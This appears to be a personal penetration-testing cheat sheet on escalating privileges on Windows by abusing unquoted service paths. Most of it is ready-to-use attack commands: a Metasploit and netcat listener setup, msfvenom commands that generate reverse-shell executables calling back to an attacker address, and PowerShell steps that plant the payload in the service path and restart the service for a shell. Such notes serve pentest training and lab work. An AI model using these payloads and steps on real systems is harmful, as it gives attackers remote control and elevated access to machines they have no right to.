 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Unquoted Service Paths|Enum]]
As it sounds, you know what this is. The service has a path that includes a space (and isn't inside quotation marks!) in it so you just make sure to have control of (or make your own) directory of the first word before the space, then put your malware in that directory so that when the service goes to run, it picks up your malware thinking it found the right program and stops looking for the actual program.

For example, if the path is `C:\Program Files\service.exe`, you put your malware in `C:\program.exe`, and that gets picked up before the first path. 
#### Setup listener
```bash
# meterpreter
msfconsole
use multi/handler
set lhost=<attack ip>
set lport=<port>
run

# reverse shell
nc -nvlp <port>
```
#### Payload
Or go to [Rev Shell Gen](https://revshell.xehn.lol)
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe

msfvenom -p windows/x64/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe

msfvenom -p windows/shell_reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o common.exe
```
#### Exploit
[[Dark Arts/File Transfer/Windows|File transfer]] payload to target machine
```powershell
# in this example, the unquoted service path is
# C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
# so we will place the payload as:
# C:\Program Files\Unquoted Path Service\common.exe
copy common.exe "C:\Program Files\Unquoted Path Service\common.exe"

# now start/restart the service
sc start <service> 
sc start unquotedpathsvc

# and you should now have a shell
```